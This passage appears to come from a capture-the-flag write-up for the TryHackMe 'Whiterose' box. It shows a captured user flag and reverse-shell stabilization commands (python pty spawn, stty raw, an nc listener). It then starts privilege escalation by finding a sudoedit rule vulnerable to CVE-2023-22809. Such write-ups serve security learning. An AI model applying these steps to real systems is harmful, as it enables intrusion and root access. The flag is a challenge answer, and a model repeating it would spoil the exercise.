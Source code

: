 Now we check [Netcat](../../3%20-%20Tags/Hacking%20Tools/Netcat.md) :

```
whoami
web
cat user.txt
THM{4lways_upd4te_uR_d3p3nd3nc!3s}
```
## Shell Stabilization

We can do now [Shell Stabilization](../../3%20-%20Tags/Hacking%20Concepts/Shell%20Stabilization.md) :

```
export TERM=xterm    
python3 -c 'import pty;pty.spawn("/bin/bash")'  
web@cyprusbank:~$ ^Z
zsh: suspended  nc -lvnp 1337
                                                                                        
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Easy/Whiterose]
└─$ stty raw -echo;fg 
[1]  + continued  nc -lvnp 1337
                               reset
web@cyprusbank:~$ 

```

Now we have a more stabile shell .

# Privilege Escalation

[CVE-2023-22809](../../3%20-%20Tags/CVEs/CVE-2023-22809.md)

We start [Privilege Escalation](../../3%20-%20Tags/Hacking%20Concepts/Privilege%20Escalation.md) checking for `sudo -l` :

```
User web may run the following commands on cyprusbank:
    (root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```

So now we check the version for `sudoedit` :

```
web@cyprusbank:/$ sudoedit --version
Sudo version 1.9.12p1
Sudoers policy plugin version 1.9.12p1
Sudoers file grammar version 48
Sudoers I/O plugin version 1.9.12p1
Sudoers audit plugin version 1.9.12p1
```

And check for vulnerabilities.

Looking for vulnerabilities in the `sudoedit` version `1.9.12p1`, we find the `CVE-2023-22809` vulnerability. You can find detailed information about it in [this security advisory from Synacktiv](https://www.synacktiv.com/sites/default/files/2023-01/sudo-CVE-2023-22809.pdf).
